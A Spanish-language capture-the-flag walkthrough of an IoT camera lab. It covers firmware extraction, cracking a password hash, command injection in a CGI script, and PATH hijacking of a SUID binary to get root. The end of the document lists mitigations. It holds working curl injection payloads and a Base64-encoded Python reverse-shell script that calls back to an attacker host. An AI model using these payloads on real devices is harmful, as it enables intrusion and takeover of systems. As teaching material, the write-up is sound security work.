










**Dificultad:** Difícil (★★★★★☆☆☆)

**Categoría:** IoT Firmware Analysis / Command Injection / Privilege Escalation

**Autor:** SBZTNGNR

**Fecha**: 10-11-2026

**Plataforma**: WhoAmI-Labs.com

---


---
<h1 align="center">Descripción</h1>
Servidor de aplicaciones web corporativas. Tu objetivo como auditor de seguridad consiste en analizar la superficie HTTP expuesta, evaluar los controles de acceso y la lógica de procesamiento, y comprometer el host subyacente.

---

Este lab entrega un archivo firmware descargable desde la misma página web (**camsec_v1.08.bin**), sin ningún tipo de protección, el cuál analizado de forma offline, se pueden obtener credenciales de acceso. Se identifica una vulnerabilidad de inyección de comandos (RCE) en un CGI expuesto por HTTP. Usando las credenciales, se explotan las vulnerabilidades, abusando de un fichero con bit SUID para obtener privilegios de superusuario y hasta obtener una shell interactiva-

---

<h1 align="center">1. Reconocimiento</h1>
## 1.1 Escaneo NMap:

```bash
nmap -sC -sV -p- --min-rate 1000 172.17.0.2 -oN scan_camsec.txt
```

**Resultados:**

```bash
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-10 17:40 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000017s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
80/tcp   open  http      BaseHTTPServer 0.6 (Python 3.11.18)
|_http-server-header: BaseHTTP/0.6 Python/3.11.18
|_http-title: Whoami-CamSec-IoT v1.08 \xE2\x80\x94 IP Camera Console
554/tcp  open  rtsp
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   NULL: 
|     RTSP/1.0 200 OK
|     CSeq: 1
|_    Server: CamSec-StreamServer/1.08
8000/tcp open  http-alt  ONVIF-DeviceService/2.4
|_http-server-header: ONVIF-DeviceService/2.4
|_http-title: Site doesn't have a title (application/soap+xml).
| fingerprint-strings: 
|   NULL: 
|     HTTP/1.1 200 OK
|     Server: ONVIF-DeviceService/2.4
|     Content-Type: application/soap+xml
|_    <s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope"><s:Body><tds:GetDeviceInformationResponse/></s:Body></s:Envelope>
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  https-alt
| fingerprint-strings: 
|   NULL: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain
|_    Required
|_http-title: Site doesn't have a title (text/plain).
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port554-TCP:V=7.991%I=7%D=11/10%Time=6AF3812E%P=x86_64-pc-linux-gnu%r(N
SF:ULL,3E,"RTSP/1\.0\x20200\x20OK\r\nCSeq:\x201\r\nServer:\x20CamSec-Strea
SF:mServer/1\.08\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8000-TCP:V=7.991%I=7%D=11/10%Time=6AF3812E%P=x86_64-pc-linux-gnu%r(
SF:NULL,D7,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20ONVIF-DeviceService/2\.4\
SF:r\nContent-Type:\x20application/soap\+xml\r\n\r\n<s:Envelope\x20xmlns:s
SF:=\"http://www\.w3\.org/2003/05/soap-envelope\"><s:Body><tds:GetDeviceIn
SF:formationResponse/></s:Body></s:Envelope>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.991%I=7%D=11/10%Time=6AF3812D%P=x86_64-pc-linux-gnu%r(
SF:NULL,44,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pl
SF:ain\r\n\r\nSSL\x20Required\r\n");
MAC Address: EE:EB:9A:97:9F:DF (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.42 seconds
```
*Puertos Abiertos: 80, 554, 8000, 8443.*

## 1.2 Enumeración Web

**Con GoBuster:**

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php,json
```

**Resultados**:

```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              json,html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 4927]
index.html           (Status: 200) [Size: 4927]
Progress: 23065 / 23065 (100.00%)
===============================================================
Finished
===============================================================
```

Hasta el momento no se habían hallado grandes pistas de cómo solucionar el lab, inclusive se enumeraron/escanearon los demás puertos sin grandes hallazgos.

## 1.3 Inspección Web:



Hasta acá nuestra primera pista. En la web , en el puerto 80, se encontró un archivo descargable llamado **"camsec_v1.08.bin"**. Lo que supone ser el software de un dispositivo (cámara).

---

<h1 align="center">2. Análisis de Firmware</h1>

## 2.1 Identificación del firmware

**file**:

```bash
file camsec_v1.08.bin
```

**Resultado:**

```bash
camsec_v1.08.bin: u-boot legacy uImage, Whoami-CamSec-IoT v1.08 (ARM32), NetBSD/ARM, OS Kernel Image (gzip), 4096 bytes, Mon Nov  9 03:38:21 2026, Load Address: 0X80000000, Entry Point: 0X80000000, Header CRC: 0X7B66D248, Data CRC: 0X19CB33
```

**file** solo muestra los primeros bytes del archivo. Mostró un *header* de *u-boot*, que envuelve lo que declarara ser un kernel comprimido en gzip, demsasiado pequeño para ser un kernel real, señal de que podría haber más de lo que *file* leyó.

## 2.2 Mapear Toda La Estructura con Binwalk

```bash
binwalk camsec_v1.08.bin
```

**Resultado:**
```bash
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0x7B66D248, created: 2026-11-09 03:38:21, image size: 4096 bytes, Data Address: 0x80000000, Entry Point: 0x80000000, data CRC: 0x19CB33, OS: NetBSD, CPU: ARM, image type: OS Kernel Image, compression type: gzip, image name: "Whoami-CamSec-IoT v1.08 (ARM32)"
64            0x40            Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3550 bytes, 19 inodes, blocksize: 131072 bytes, created: 2026-11-09 03:38:21

```


**Binwalk** escanea por completo buscando firmas conocidas, se ve que justo después del header *u-boot*, comienza el sistema de archivos **SquashFS**, ahí vive el software completo del dispositivo (binarios, configuración, scripts).

## 2.3 Extraer el Sistema de Archivos:

```bash
binwalk -e camsec_v1.08.bin
```

Esto genera una carpeta llamada **camsec_v1.08.bin.extracted**. Navegable como sí fuera el sistema operativo de la cámara.

### Estructura del Sistema de Archivos

```bash
.
├── 40.squashfs
├── hash.txt
└── squashfs-root
    ├── bin
    ├── etc
    │   ├── init.d
    │   │   └── S99telemetry
    │   ├── passwd
    │   └── shadow
    ├── lib
    ├── root
    ├── sbin
    ├── tmp
    ├── usr
    │   └── bin
    │       └── cam_diag
    ├── var
    │   └── run
    └── www
        └── cgi-bin
            └── wifi_status.cgi

15 directories, 7 files

```

----
<h1 align="center">3. Obtención de Credenciales</h1>
## 3.1 Descubrimiento de Usuarios/Contraseñas

En **/etc/passwd** encontramos el archivo **passwd**, con las credenciales tanto de *root* como de un usuario llamado *support_eng*, ambas con shell interactiva:

```text
root:x:0:0:root:/root:/bin/sh
support_eng:x:1000:1000:support_eng:/home/support_eng:/bin/sh
```

en **/etc/shadow** encontramos los hashes de las contraseñas de usuarios *root* y *support_eng*:

```text
root:*:19500:0:99999:7:::
support_eng:$6$W4m1C4m$9J84guN4Uwn7tKW/xAhs62BdkoryANgoXLx4rwo0S0hDMy2ftS7t2NqggdQM3/ml/.blmkss/VyX84A3QlIZl.:19500:0:99999:7:::
```

*Nota: Al llevar  * (asterisco),  el usuario root tiene deshabilitado el login por contraseña.*

## 3.2 Cracking Con John The Ripper

```bash
echo 'support_eng:$6$W4m1C4m$9J84guN4Uwn7tKW/xAhs62BdkoryANgoXLx4rwo0S0hDMy2ftS7t2NqggdQM3/ml/.blmkss/VyX84A3QlIZl.:19500:0:99999:7:::' > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt       
```

**Resultado:**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 26 [worst case UTF-8] to 79 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
camera           (support_eng)     
1g 0:00:00:04 DONE (2026-11-10 20:09) 0.2257g/s 809.0p/s 809.0c/s 809.0C/s asdf1234..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

**Credenciales:**
```
support_eng:camera
```

---
<h1 align="center">4 - Identificación de la Vulnerabilidad (Lectura de Código Fuente)</h1>

Al analizar el archivo *wifi_status.cgi*, en la ruta, *squashfs-root/www/cgi-bin*,contenía lo siguiente:

```sh
#!/bin/sh
# CamSec IoT WiFi Network Diagnostic Interface
echo "Content-type: text/plain"
echo ""
IFACE=$(echo "$QUERY_STRING" | sed -n 's/^.*interface=\([^&]*\).*$/\1/p' | sed 's/%20/ /g' | sed 's/+/ /g' | sed 's/%3B/;/g' | sed 's/%26/\&/g')
if [ -z "$IFACE" ]; then
  echo 'Usage: wifi_status.cgi?interface=wlan0'
  exit 1
fi
eval "echo '[*] Interface status for '$IFACE; iwconfig $IFACE 2>&1 || ifconfig $IFACE 2>&1"

```

**El bug:** el script decodifica manualmente `%3B` → `;` y `%26` → `&`, y luego mete el resultado sin sanitizar dentro de un `eval`. Esto permite **inyección de comandos**: cualquier `;` que sobreviva el procesamiento (mandado como `%3B` en la URL) termina el comando original y arranca uno nuevo, que el shell del servidor ejecuta.

**Detalle importante para construir payloads más adelante:** `$IFACE` aparece **tres veces** en esa misma línea (`echo`, `iwconfig`, `ifconfig`). Cualquier inyección se repite tres veces en el mismo contexto — por eso conviene terminar el payload con `#` (comentario de shell) para anular el resto de la línea y evitar errores de sintaxis por la repetición.

---
<h1 align="center">5 - Explotación</h1>
## 5.1 Autenticación y Ejecución de Comandos

- **cgi-bin Como Ruta**: Al momento de extraer el filesystem, la ruta dentro de esta era *www/cgi-bin/wifi_status.cgi*, por lo que */www*, es casi siempre la raíz desde donde el servidor sirve archivos:

```text
squashfs-root/
└── www/
    └── cgi-bin/
        └── wifi_status.cgi
```

Por eso se decidió con probar la ruta *cgi-bin/wifi_status.cgi* para la explotación:

```bash
curl -v http://172.17.0.2:80/cgi-bin/wifi_status.cgi
```

Devolviendo algo bastante más interesante:

```bash
401 Unauthorized: Valid support_eng credentials required.
* shutting down connection #0
```
*Confirmando que son las credenciales support_eng:camera las esperadas aquí*

### 5.2 Probando Credenciales

```bash
curl -v -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0"
```



`200 OK` → autenticación exitosa.

### 5.3 Confirmando La Inyección de Comandos

```bash
curl -v -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0%3Bid"
```

**Respuesta:**
```bash
[*] Interface status for wlan0;id
wlan0: error fetching interface information: Device not found
uid=1000(support_eng) gid=1000(support_eng) groups=1000(support_eng)
* shutting down connection #0
```


La salida nos muestra la ejecución exitosa de comandos mediante el usuario support_eng (UID 1000).

---
<h1 align="center">6. Escalada de privilegios (SUID + PATH hijacking)</h1>

Al revisar los *strings* del fichero */usr/bin/cam_diag*, se encontraron las llamadas *setuid, setgid y system("netstat -i")* — esta última sin ruta absoluta. El binario tiene el bit SUID activo y pertenece a root, por lo que se ejecuta con privilegios elevados; al no especificar la ruta completa de netstat, queda expuesto a un ataque de PATH hijacking.

## 6.1 Confirmación de permisos (vía la inyección de comandos ya lograda):

```bash
curl -v -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0%3Bls+-la+/usr/bin/cam_diag"
```

```bash
[*] Interface status for wlan0;ls -la /usr/bin/cam_diag
wlan0: error fetching interface information: Device not found
-rwsr-xr-x 1 root root 16288 Nov  9 03:44 /usr/bin/cam_diag
* shutting down connection #0
```


## 6.2 Envenamiento del PATH

La lógica ocurre de la siguiente manera:
1. **cam_diag** llama internamente a *system("netstat -i").
2. **system()** ejecuta */bin/sh -c "netstat -i"* que busca *netstat* recorriendo las variables del entorno *PATH*
3. Sí se antepone un directorio propio (*/tmp*)  al *PATH* y ahí se coloca un ejecutable propio llamado **netstat**, la shell lo encuentra primero y lo ejecuta
4. Como el proceso padre (*cam_diag*) corre con privilegios de root por el SUID, el script falso también se ejecuta como root.

```bash
curl -v -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0%3Becho+'cp+/bin/sh+/tmp/rootsh;+chmod+%2bs+/tmp/rootsh'+>+/tmp/netstat%3Bchmod+%2bx+/tmp/netstat%3BPATH=/tmp:%24PATH+/usr/bin/cam_diag%3Bls+-la+/tmp/rootsh"
```

que más legiblemente sería:

```bash
interface=wlan0;echo 'cp /bin/sh /tmp/rootsh; chmod +s /tmp/rootsh' > /tmp/netstat;chmod +x /tmp/netstat;PATH=/tmp:$PATH /usr/bin/cam_diag;ls -la /tmp/rootsh
```

ó desglosado al completo:

```bash
wlan0
echo 'cp /bin/sh /tmp/rootsh; chmod +s /tmp/rootsh' > /tmp/netstat
chmod +x /tmp/netstat
PATH=/tmp:$PATH /usr/bin/cam_diag
ls -la /tmp/rootsh
```

o sea, lo primero que se hace es copiar **/bin/sh** a **/tmp** llamandolo **rootsh**, darle el bit SUID (**+s**) y nombrándolo **netstat**, dandole permisos de ejecución (**+x**). Asignar el **PATH** a **/tmp** y finalizar revisando los permisos con **ls**.



**Resultado:**
```bash
[*] Interface status for wlan0;echo cp /bin/sh /tmp/rootsh
chmod: cannot access '/tmp/rootsh > /tmp/netstat;chmod +x /tmp/netstat;PATH=/tmp:$PATH /usr/bin/cam_diag;ls -la /tmp/rootsh': No such file or directory
wlan0: error fetching interface information: Device not found
[*] CamSec Hardware Diagnostics Utility v1.08
[*] Checking network interface integrity...
-rwsr-sr-x 1 root root 129736 Nov 11 01:54 /tmp/rootsh
* shutting down connection #0
```
*PS: El error que se ve, se debe a que las comillas que debían proteger el punto y coma ; no sobrevivió  al procesamiento del script ($IFACE repite tres veces, pasando por varios sed) sin embargo el resultado terminó siendo satisfactorio.*

- **/tmp/rootsh** es ahora una copia de **/bin/sh**

## 6.3 Confirmando la Escalada:

```bash
curl -v -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0%3B/tmp/rootsh+-p+-c+id"
```

**Resultado**:

```bash
[*] Interface status for wlan0;/tmp/rootsh -p -c id
wlan0: error fetching interface information: Device not found
uid=1000(support_eng) gid=1000(support_eng) euid=0(root) egid=0(root) groups=0(root),1000(support_eng)
* shutting down connection #0
```


El flag `-p` en `/tmp/rootsh` es necesario: por defecto, muchos shells (sh/bash) **bajan privilegios automáticamente** al detectar que `uid` real y `euid` efectivo no coinciden (una medida de seguridad estándar). `-p` evita ese downgrade, preservando el `euid=0`.

**`euid=0(root)` confirma la escalada de privilegios completa.**

---
<h1 align="center">7. Lectura de Flag</h1>
Para leer la flag del usuario root debemos usar el siguiente comando:

```bash
curl -v -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0%3B/tmp/rootsh+-p+-c+%27cat+/root/flag.txt%27+%23"
```

**Resultado**:

```bash
[*] Interface status for wlan0;/tmp/rootsh -p -c cat /root/flag.txt #
wlan0: error fetching interface information: Device not found
Whoami{camsec_arm32_firmware_r00t_2026}
* shutting down connection #0
```


**Flag:**
```text
Whoami{camsec_arm32_firmware_r00t_2026}
```

---

<h1 align="center">8 - Reverse Shell  (Vía Alternativa/Robusta)</h1>

El camino final que funcionó fue este:

1. **Armamos el payload de reverse shell en Python** (socket + dup2 + pty.spawn) como texto plano en una variable.
2. **Lo codificamos en Base64** (`B64=$(echo "$PYTHON_PAYLOAD" | base64 -w0)`) para que viajara sin romperse por comillas, sin importar que `$IFACE` se repitiera tres veces en el script del CGI.
3. **Armamos la inyección** que decodifica ese Base64 a un archivo y lo ejecuta con Python (no directo como binario, porque fallaba con `import: not found` al faltarle el shebang):
```text
wlan0;echo $B64|base64 -d>/tmp/r.py;nohup /tmp/rootsh -p -c python3 /tmp/r.py >/tmp/err.log 2>&1 & #
```
- `nohup ... &` → para que el proceso quedara corriendo en segundo plano y no se muriera al terminar la petición HTTP.
- el `#` al final → para anular el resto de la línea repetida y evitar que el `&` chocara con las repeticiones de `$IFACE`.

4. **URL-encodeamos** toda esa inyección con Python (`urllib.parse.quote`) para evitar errores manuales de `%XX`.
   
<h1 align="center"> Script Final:</h1>

```bash
IP="172.17.0.1"
PUERTO="4444"

PYTHON_PAYLOAD="import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((\"$IP\",$PUERTO))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn(\"/bin/sh\")"

B64=$(echo "$PYTHON_PAYLOAD" | base64 -w0)

INYECCION="wlan0;echo $B64|base64 -d>/tmp/r.py;nohup /tmp/rootsh -p -c python3 /tmp/r.py >/tmp/err.log 2>&1 & #"

ENCODED=$(python3 -c "import urllib.parse,sys; print(urllib.parse.quote(sys.argv[1]))" "$INYECCION")

curl -s -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=$ENCODED"
```

5. **Mandamos el curl**, y en la terminal del `nc -lvnp 4444` apareció la conexión — pero como `support_eng`, no root (porque Python como proceso hijo no heredó el privilegio elevado del SUID).

```bash
curl -s -u support_eng:camera "http://172.17.0.2:80/cgi-bin/wifi_status.cgi?interface=wlan0%3Bpython3+/tmp/r.py+%23"
```

6. **Ya dentro de la shell reversa**, corrimos `/tmp/rootsh -p` interactivamente, lo cual sí nos dio `euid=0(root)`.
   
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58132
$ /tmp/rootsh -p
/tmp/rootsh -p
# whoami; id
whoami; id
root
uid=1000(support_eng) gid=1000(support_eng) euid=0(root) egid=0(root) groups=0(root),1000(support_eng)
# setpriv --reuid=0 --regid=0 --clear-groups bash
setpriv --reuid=0 --regid=0 --clear-groups bash
root@whoami-camsec-iot:/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@whoami-camsec-iot:/app# cd /root; ls -la 
cd /root; ls -la 
total 24
drwx------ 1 root root 4096 Nov 11 01:13 .
drwxr-xr-x 1 root root 4096 Nov 11 01:13 ..
-rw-r--r-- 1 root root  607 Jul 17 17:05 .bashrc
-rw-r--r-- 1 root root  132 Jul 17 17:05 .profile
-rw------- 1 root root    0 Nov  5 07:57 .python_history
-rw-r--r-- 1 root root  169 Nov  5 07:52 .wget-hsts
-r-------- 1 root root   40 Nov 11 01:13 flag.txt
root@whoami-camsec-iot:~# cat flag.txt  
cat flag.txt
Whoami{camsec_arm32_firmware_r00t_2026}
root@whoami-camsec-iot:~# 
```


---

<h1 align="center">Mitigaciones</h1>

1. **Firmware descargable sin autenticación ni control de acceso:**
   - Solución: Restringir descarga de firmware, o al menos no incluir credenciales/hashes reales en imágenes públicas

2. **Credenciales débiles / hardcodeadas (`camera`)** 
   - Forzar cambio de contraseña por defecto en primer uso; políticas de contraseña robustas

3. **Command injection en `wifi_status.cgi` (uso de `eval` sobre input de usuario mal saneado):**
   - Eliminar `eval`; usar listas blancas estrictas de interfaces válidas (ej. regex `^wlan[0-9]+$`) antes de pasar el valor a cualquier comando.

4. **Binario SUID root (`cam_diag`) que invoca binarios externos sin ruta absoluta**
   - Usar siempre rutas absolutas (`/sbin/netstat`) en binarios con privilegios elevados; evitar `system()`/`popen()` en binarios SUID; considerar eliminar el bit SUID si no es estrictamente necesario, o usar capabilities de Linux en su lugar
